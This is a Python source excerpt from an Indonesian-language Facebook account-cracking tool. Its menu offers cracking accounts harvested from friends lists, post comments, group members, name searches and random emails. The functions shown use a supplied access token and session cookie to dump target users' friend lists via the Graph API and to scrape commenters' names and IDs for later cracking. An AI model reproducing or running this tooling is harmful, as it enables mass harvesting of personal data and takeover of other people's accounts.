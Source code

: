    def Facebook(self, **args):
       self.token = str(args['token'])
       self.cokie = str(args['cookies'])
       self.MyRich('''[white] 01. Crack Dari Teman           06. Check Hasil Crack
 02. Crack Dari Komentar        07. Crack Ulang Akun CP
 03. Crack Dari Anggota Group   08. Check Opsi Akun CP
 04. Crack Dari Pencarian Nama  09. Ganti Akun Tumbal
 05. Crack Dari Random Email    10. Kembali''',True)
       while True:
          x = Console(style=Tema[0]).input(f'   └──> ')
          if x in   ['01','1']:self.TemanFb(self.cokie, self.token)
          elif x in ['02','2']:self.KomentarFb(self.cokie)
          elif x in ['03','3']:self.AnggotaGroup(self.cokie)
          elif x in ['04','4']:self.PencarianNamaFb(self.cokie)
          elif x in ['05','5']:self.RandomEmail()
          elif x in ['06','6']:self.HasilFb()
          elif x in ['07','7']:self.CrackUlangFb()
          elif x in ['08','8']:self.CekOpsi()
          elif x in ['09','9']:os.system('rm -rfdata/FB-login.txt');self.insta()
          elif x in ['10']:self.insta()

   def TemanFb(self, cokie, token):
       self.MyRich('[white]Masukan ID Target Gunakan Tanda Koma Sebagai Pemisah (,)',True)
       self.ab = Console(style=Tema[0]).input(f'   └──> ').split(',')
       with ThreadPoolExecutor(max_workers=2) as Exe:
          for self.id in self.ab:Exe.submit(self.DumpTeman, self.id, cokie, token)

   def DumpTeman(self, user, cokie, token):
       with requests.Session() as self.r:
         try:
             self.req = self.r.get('https://graph.facebook.com/%s?fields=friends&access_token=%s'%(user, token), cookies={'cookie':cokie}).json()['friends']['data']
             for self.apc in self.req:
                 self.mat = '%s|%s'%(self.apc['name'], self.apc['id'])
                 if self.mat not in self.fauser:self.fauser.append(self.mat)
         except:pass

   def KomentarFb(self, cokie):
       self.MyRich('[white]Masukan link postingan Pastikan Target Bersifat Publik [Group,Post Teman]',True)
       self.link = Console(style=Tema[0]).input(f'   └──> ')
       self.host = self.link.split('//')[1].split('/')[0]
       self.repl = self.link.replace(self.host,'mbasic.facebook.com')
       self.DumpKomen(self.repl, cokie)

   def DumpKomen(self, curl, cokie):
       with requests.Session() as self.r:
         try:
             self.req  = self.r.get(curl, cookies={'cookie':cokie}).text
             self.data = re.findall('<h3><a class=".*?" href="(.*?)">(.*?)</a></h3>', str(self.req))
             for self.apc in self.data:
                 if '/profile.php?' in self.apc[0]:
                     self.id, self.nama = re.search('id=(.*?)&',str(self.apc[0])).group(1), self.apc[1]
                     self.mat = '%s|%s'%(self.nama, self.id)
                     print(self.mat)
                     if self.mat not in self.fauser:self.fauser.append(self.mat)
                 else:
                     self.username, self.nama = re.search('/(.*?)?eav',str(self.apc[0])).group(1), self.apc[1]
                     self.mat = '%s|%s'%(self.nama, self.username.split('?')[0])
                     print(self.mat)
                     if self.mat not in self.fauser:self.fauser.append(self.mat)
             for self.link in bsp(self.req,'html.parser').find_all('a', href=True):
                 if 'Lihat komentar lainnya…' in str(self.link.text):
                     self.DumpKomen(self.link['href'], cokie)
                 else:continue